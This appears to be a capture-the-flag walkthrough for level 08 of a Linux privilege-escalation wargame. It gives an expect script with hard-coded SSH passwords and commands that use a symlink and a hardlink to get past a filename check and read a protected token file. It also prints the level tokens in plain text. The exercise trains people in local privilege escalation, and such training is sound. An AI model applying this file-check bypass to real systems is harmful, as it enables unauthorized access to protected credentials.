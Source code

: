 # Level 08
- In the shell of your choice run the script attached or follow the steps bellow using your VM IP address to get the flag, also root privileges and some dependencies may be needed to install before
	```sh
	$ chmod u+x script.sh
	$ ./script.sh
	$ cat script.sh
	#!/usr/bin/expect -f
	set ip 192.168.1.103
	spawn ssh -o "StrictHostKeyChecking no" level08@$ip -p 4242 "mkdir -p /tmp/level08 ; cd /tmp/level08 ; chmod 777 . ; rm -rf ./* ; ln -s ~/token token ; ln token hardlink ; ~/level08 hardlink"
	expect "sword:"
	send "fiumuikeil55xe9cu4dood66h\r"
	expect -re "\r\n(.*?)\r\n"
	set password $expect_out(1,string)
	spawn ssh -o "StrictHostKeyChecking no" flag08@$ip -p 4242 "getflag"
	expect "sword:"
	send "$password\r"
	interact
	```
- List content of the home directory
	```sh
	$ ls -l
	```
- Run the file `level08`
	```sh
	$ ./level08
	```
- Use `ltrace` utility to trace the libraries calls
	```sh
	$ ltrace ./level08 token
	```
- Make a directory in `/tmp` location
	```sh
	$ mkdir -p /tmp/level08
	$ chmod 777 /tmp/level08
	$ rm -rf /tmp/level08/*
	```
- Create a symlink in that directory to the `token` file seen earlier
	```sh
	$ ln -s token /tmp/level08/token
	```
- Create a hardlink in that directory to the newely created symlink
	```sh
	$ ln /tmp/level08/token /tmp/level08/hardlink
	```
- Run the file `level08` with an argument of previously created hardlink
	```sh
	$ ./level08 /tmp/level08/hardlink
	```
- Switch to the user `flag08` with the given token `quif5eloekouj29ke0vouxean`
	```sh
	$ su flag08
	Password: quif5eloekouj29ke0vouxean
	```
- Run `getflag` command to get the flag
	```sh
	$ getflag
	``` 
- With the token provided `25749xKZ8L7DkSCwJkT9dyv6f` switch to the next user level
	```sh
	$ su level09
	Password: 25749xKZ8L7DkSCwJkT9dyv6f
	```
